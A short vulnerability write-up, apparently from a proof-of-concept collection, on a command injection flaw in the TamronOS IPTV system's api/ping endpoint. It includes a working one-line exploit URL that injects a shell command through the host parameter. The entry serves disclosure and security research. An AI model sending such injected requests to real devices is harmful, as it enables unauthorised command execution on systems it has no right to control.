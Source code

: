 # TamronOS IPTV system ping arbitrary command execution vulnerability

## Vulnerability Description

TamronOS IPTV system api/ping has arbitrary command execution vulnerability, and an attacker can execute any command through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">TamronOS IPTV system</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210615145308242.png)



The vulnerability POC is

```plain
/api/ping?count=5&host=;id;
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210615145342322.png)
